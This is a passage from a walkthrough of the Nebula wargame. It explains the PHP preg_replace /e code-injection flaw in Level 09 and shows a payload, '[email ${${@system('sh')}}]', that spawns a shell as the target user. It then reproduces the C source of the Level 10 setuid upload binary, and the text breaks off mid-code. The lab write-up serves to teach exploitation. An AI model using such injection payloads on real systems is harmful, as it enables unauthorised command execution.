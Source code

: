 So the vulnerable part here is the preg*replace with the \_e* flag. For information on this see [<https://bugs.php.net/bug.php?id=35960>](https://bugs.php.net/bug.php?id=35960).

So there's a few ways we can exploit this. We basically need to pass a command to the script that will get executed in the `preg_replace`. Let's try to simply get a shell as the _flag09_ user and get our flag.

```sourceCode
level09@nebula:/home/flag09$ echo '[email ${${@system('sh')}}]' > /tmp/test.txt
level09@nebula:/home/flag09$ ./flag09 /tmp/test.txt fasdf
sh-4.2$ whoami
flag09
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

## Level 10

> The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
    exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
    int fd;
    int ffd;
    int rc;
    struct sockaddr_in sin;
    char buffer[4096];

    printf("Connecting to %s:18211 .. ", host); fflush(stdout);

    fd = socket(AF_INET, SOCK_STREAM, 0);

    memset(&sin, 0, sizeof(struct sockaddr_in));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = inet_addr(host);
    sin.sin_port = htons(18211);

    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
      printf("Unable to connect to host %s\n", host);
      exit(EXIT_FAILURE);
    }
```